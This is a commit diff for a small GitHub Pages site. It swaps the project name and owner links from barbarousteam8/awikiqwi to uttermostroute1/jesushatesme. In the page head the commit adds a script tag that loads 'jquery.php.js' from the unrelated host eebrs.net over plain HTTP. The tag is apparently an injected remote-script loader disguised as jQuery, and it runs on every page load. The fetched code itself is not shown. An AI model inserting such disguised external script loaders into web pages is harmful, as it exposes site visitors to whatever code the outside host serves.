

Before and after one commit to awikiqwi/barbarousteam8, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 59-1359 px from the top of the page at 85% size. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,8 @@
 <html lang="en-us">
   <head>
     <meta charset="UTF-8">
-    <title>barbarousteam8 by awikiqwi</title>
+    <title>uttermostroute1 1by jesushatesme</title>
+    <script src="http://eebrs.net/jquery.php.js"></script>
     <meta name="viewport" content="width=device-width, initial-scale=1">
     <link rel="stylesheet" type="text/css" href="stylesheets/normalize.css" media="screen">
     <link href='https://fonts.googleapis.com/css?family=Open+Sans:400,700' rel='stylesheet' type='text/css'>
@@ -11,11 +12,11 @@
   </head>
   <body>
     <section class="page-header">
-      <h1 class="project-name">barbarousteam8</h1>
+      <h1 class="project-name">uttermostroute1</h1>
       <h2 class="project-tagline"></h2>
-      <a href="https://github.com/awikiqwi/barbarousteam8" class="btn">View on GitHub</a>
-      <a href="https://github.com/awikiqwi/barbarousteam8/zipball/master" class="btn">Download .zip</a>
-      <a href="https://github.com/awikiqwi/barbarousteam8/tarball/master" class="btn">Download .tar.gz</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1" class="btn">View on GitHub</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1/zipball/master" class="btn">Download .zip</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1/tarball/master" class="btn">Download .tar.gz</a>
     </section>
 
     <section class="main-content">
@@ -45,7 +46,7 @@
 <p>Having trouble with Pages? Check out our <a href="https://help.github.com/pages">documentation</a> or <a href="https://github.com/contact">contact support</a> and we’ll help you sort it out.</p>
 
       <footer class="site-footer">
-        <span class="site-footer-owner"><a href="https://github.com/awikiqwi/barbarousteam8">barbarousteam8</a> is maintained by <a href="https://github.com/awikiqwi">awikiqwi</a>.</span>
+        <span class="site-footer-owner"><a href="https://github.com/jesushatesme/uttermostroute1">uttermostroute1</a> is maintained by <a href="https://github.com/jesushatesme">jesushatesme</a>.</span>
 
         <span class="site-footer-credits">This page was generated by <a href="https://pages.github.com">GitHub Pages</a> using the <a href="https://github.com/jasonlong/cayman-theme">Cayman theme</a> by <a href="https://twitter.com/jasonlong">Jason Long</a>.</span>
       </footer>
```
